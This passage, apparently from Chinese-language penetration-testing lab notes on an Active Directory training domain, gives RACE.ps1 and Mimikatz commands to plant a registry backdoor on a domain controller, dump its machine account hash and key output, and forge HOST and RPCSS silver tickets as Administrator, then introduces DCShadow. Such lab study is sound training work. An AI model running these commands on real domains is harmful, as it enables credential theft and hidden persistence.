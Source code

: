 ```
DA shell，引入RACE.ps1，域名写全(注意：这里如果不能正常设置，enter-psssesion到DC，bypass AMSI，远程加载RACE.ps1后在DC上设置)
```
PS C:\ad> . .\RACE.ps1
PS C:\ad> Set-RemotePSRemoting -SamAccountName student366 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose
```

在学生shell，执行whoami命令
```
Invoke-Command -ScriptBlock{whoami} -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

### 无管理员密码的情况下从目标机器上dump出哈希

Modifying DC registry security descriptors for remote hash retrieval using DAMP

在DC上修改权限，允许本账号（student366）远程dump出哈希，在DAshell
```
Add-RemoteRegBackdoor -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Trustee student366 -Verbose
```

在学生shell
引入框架
```
PS C:\ad> . .\RACE.ps1
```

dump出dcorp-dc这台机器的哈希
```
PS C:\ad> Get-RemoteMachineAccountHash -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose
VERBOSE: Bootkey/SysKey : 85462B93FC25EE67BB07AD899096199B
VERBOSE: LSA Key        : FD3251451B1293B9ED7AF4BED8E19A678F514B9BC2B42B796E2C72AF156945E9

ComputerName                        MachineAccountHash
------------                        ------------------
dcorp-dc.dollarcorp.moneycorp.local 126289c16302fb23b71ec09f0d3d5391
```

现在我们有了这台机器的哈希，可以用来制作银票

基于HOST服务的银票
```
. .\Invoke-Mimikatz.ps1
PS C:\ad> Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:126289c16302fb23b71ec09f0d3d5391 /user:Administrator /ptt"'
```

基于RPCSS服务的银票
```
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:126289c16302fb23b71ec09f0d3d5391 /user:Administrator /ptt"'
```

可以建一个定时任务反弹DC这台服务器的shell

# DCShadow

DCShadow 是一种通过临时模仿域控制器来掩盖某些操作的攻击。如果您在根域中具有域管理员或企业管理员权限，则可以将其用于林级持久性。

或者，作为域管理员，为选定的用户提供 DCShadow 攻击所需的权限（使用Set-DCShadowPermissions.ps1cmdlet）。

```
